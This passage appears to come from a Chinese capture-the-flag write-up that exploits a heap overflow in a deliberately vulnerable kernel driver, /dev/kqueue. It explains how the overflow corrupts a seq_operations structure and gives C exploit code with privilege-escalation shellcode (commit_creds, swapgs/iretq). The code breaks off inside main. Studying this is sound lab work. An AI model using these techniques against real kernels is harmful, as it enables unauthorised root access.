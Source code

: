注意在save函数中，其申请的空间大小是queue->queue_size，我们之前传入的max_entries为0xFFFFFFFF，这使得queue->queue_size=0x20，即新申请的空间与seq_operations在相近的位置。然而其拷贝的实际长度为request.data_size，可以产生溢出。当request.max_entries=0时，拷贝的循环不会执行，而是只会执行循环前面的memcpy，将queue->data拷贝到新空间中，因此，如果我们在queue->data中写入shellcode的地址，就有覆盖一个seq_operations结构体的可能性。经过测试证明，当queue->data传入0x40的时候，溢出0x20个字节正好能够覆盖一个seq_operations结构体。

最终的exp：（头文件在上面，不变）
```c
//
// Created by root on 22-7-13.
//

#include "heap_overflow.h"

size_t user_cs, user_ss, user_rflags, user_sp;
size_t sh = (size_t)getShell;

void shellcode(){
    __asm__("mov r11, [rsp + 0x8];"
            "sub r11, 0x201179;"
            "mov r12, r11;"
            "add r12, 0x8C580;"     // prepare_kernel_cred
            "add r11, 0x8C140;"     // commit_creds
            "xor rdi, rdi;"
            "call r12;"
            "mov rdi, rax;"
            "call r11;"
            "swapgs;"
            "mov r11, user_ss;"
            "push r11;"
            "mov r11, user_sp;"
            "push r11;"
            "mov r11, user_rflags;"
            "push r11;"
            "mov r11, user_cs;"
            "push r11;"
            "mov r11, sh;"
            "push r11;"
            "iretq;");
}

int main(){
    int seq_fd[0x200];
    size_t data[0x20];

    save_status();
    int fd = open("/dev/kqueue", O_RDONLY);
    if(fd < 0)
        error_log("Cannot open /dev/kqueue!");

    for(int i=0; i<0x20; i++)
        data[i] = (size_t)shellcode;

    request_t create_req = {
            .max_entries = 0xFFFFFFFF,
            .data_size = 0x20 * 8,
    };
    ioctl(fd, CREATE_KQUEUE, &create_req);
    info_log("queue created.");

    request_t edit_req = {
            .queue_idx = 0,
            .entry_idx = 0,
            .data = (char*)data,
    };
```